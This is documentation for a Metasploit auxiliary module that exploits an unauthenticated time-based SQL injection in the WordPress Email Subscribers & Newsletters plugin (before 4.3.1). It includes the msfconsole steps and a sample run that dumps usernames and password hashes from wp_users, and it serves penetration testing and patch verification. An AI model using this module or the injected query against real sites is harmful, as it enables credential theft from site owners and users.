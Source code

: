 ## Vulnerable Application

Email Subscribers & Newsletters plugin contains an unauthenticated timebased SQL injection in
versions before 4.3.1.  The `hash` parameter is vulnerable to injection.

All versions can be downloaded from [wordress.org](https://wordpress.org/plugins/email-subscribers/advanced/)
or [4.2.2](https://downloads.wordpress.org/plugin/email-subscribers.4.2.2.zip)

After install, simply activate the plug-in.  You may get a "80% done!" page, simply ignore it.

## Verification Steps

1. Install the plugin on wordpress.
1. Start msfconsole
1. Do: `use auxiliary/scanner/http/wp_email_sub_news_sqli`
1. Do: `set rhosts [ip]`
1. Do: `set action [action]`
1. Do: `run`

## Options

### ACTION: List Users

This action lists `COUNT` users and password hashes.

### COUNT

If Action `List Users` is selected (default), this is the number of users to enumerate.
The larger this list, the more time it will take.  Defaults to `1`.

## Scenarios

### Wordpress 5.4.2 with Email Subscribers & Newsletters 4.2.2 on Ubuntu 20.04 using MariaDB 10.3.22

#### List Users

```
msf6 > use auxiliary/scanner/http/wp_email_sub_news_sqli 
msf6 auxiliary(scanner/http/wp_email_sub_news_sqli) > set rhosts 2.2.2.2
rhosts => 2.2.2.2
msf6 auxiliary(scanner/http/wp_email_sub_news_sqli) > set count 3
count => 3
msf6 auxiliary(scanner/http/wp_email_sub_news_sqli) > set verbose true
verbose => true
msf6 auxiliary(scanner/http/wp_email_sub_news_sqli) > run

[*] Checking /wp-content/plugins/email-subscribers/readme.txt
[*] Found version 4.2.2 in the plugin
[+] Vulnerable version detected
[*] {SQLi} Executing (select group_concat(yKaoA) from (select cast(concat_ws(';',ifnull(user_login,''),ifnull(user_pass,'')) as binary) yKaoA from wp_users limit 3) adO)
[*] {SQLi} Time-based injection: expecting output of length 124
[+] wp_users
========

 user_login  user_pass
 ----------  ---------
 admin       $P$BZlPX7NIx8MYpXokBW2AGsN7i.aUOt0
 admin2      $P$BNS2BGBTJmjIgV0nZWxAZtRfq1l19p1
 editor      $P$BdWSGpy/tzJomNCh30a67oJuBEcW0K/

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
